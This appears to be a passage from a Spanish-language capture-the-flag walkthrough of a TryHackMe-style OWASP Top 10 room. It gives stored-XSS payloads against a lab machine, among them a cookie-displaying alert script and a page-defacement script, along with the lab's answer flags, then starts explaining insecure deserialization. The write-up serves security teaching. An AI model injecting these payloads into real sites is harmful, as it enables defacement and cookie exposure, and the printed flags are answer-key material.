 4. Ahora navegue a [http://MACHINE_IP/stored](http://MACHINE_IP/stored) y cree una cuenta. Luego agregue un comentario y vea si puede insertar algo de su propio HTML.

`<b>Hello World!</b>`

`HTML_T4gs`

5. En la misma página, cree un cuadro emergente de alerta que aparecerá en la página con las cookies de su documento.

`<script>alert(document.cookie)</script>`

`W3LL_D0N3_LVL2`

6. Cambie "XSS Playground" a "Soy un hacker" agregando un comentario y usando Javascript.

`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

`websites_can_be_easily_defaced_with_xss`

## [](#day-8-insecure-deserialization)[Día 8] Deserialización insegura

**.:. OWASP10 - A8: Deserialización insegura .:.**

[![](https://user-content.gitlab-static.net/f75a9fc04012fc13f1348c777860c21933e330dd/68747470733a2f2f692e696d6775722e636f6d2f52654c327245652e706e67)](https://user-content.gitlab-static.net/f75a9fc04012fc13f1348c777860c21933e330dd/68747470733a2f2f692e696d6775722e636f6d2f52654c327245652e706e67)

_"La deserialización insegura es una vulnerabilidad que ocurre cuando se utilizan datos que no son de confianza para abusar de la lógica de una aplicación" (Acunetix., 2017)_

Esta definición es todavía bastante amplia por decir lo menos. Simplemente, la deserialización insegura está reemplazando los datos procesados ​​por una aplicación con código malicioso; permitiendo cualquier cosa, desde DoS (Denegación de servicio) hasta RCE (Ejecución remota de código) que el atacante puede usar para hacerse un hueco en un escenario de pentesting.

Específicamente, este código malicioso aprovecha el proceso legítimo de serialización y deserialización que utilizan las aplicaciones web. Explicaremos este proceso y por qué es tan común en las aplicaciones web modernas.

OWASP clasifica esta vulnerabilidad como 8 de 10 por las siguientes razones:

- Baja explotabilidad. Esta vulnerabilidad suele ser caso por caso: no existe una herramienta/marco confiable para ella. Debido a su naturaleza, los atacantes deben tener una buena comprensión del funcionamiento interno del ToE.
- El exploit es tan peligroso como lo permita la habilidad del atacante, más aún, el valor de los datos que están expuestos. Por ejemplo, alguien que solo puede causar un DoS hará que la aplicación no esté disponible. El impacto comercial de esto variará en la infraestructura: algunas organizaciones se recuperarán bien, otras, sin embargo, no.

**.:. ¿Qué es Vulnerable? .:.**

En resumen, en última instancia, cualquier aplicación que almacene o obtenga datos donde no haya validaciones o verificaciones de integridad para los datos consultados o retenidos. Algunos ejemplos de aplicaciones de esta naturaleza son:

- Sitios de comercio electrónico
- Foros
- API
- Tiempos de ejecución de aplicaciones (Tomcat, Jenkins, Jboss, etc.)
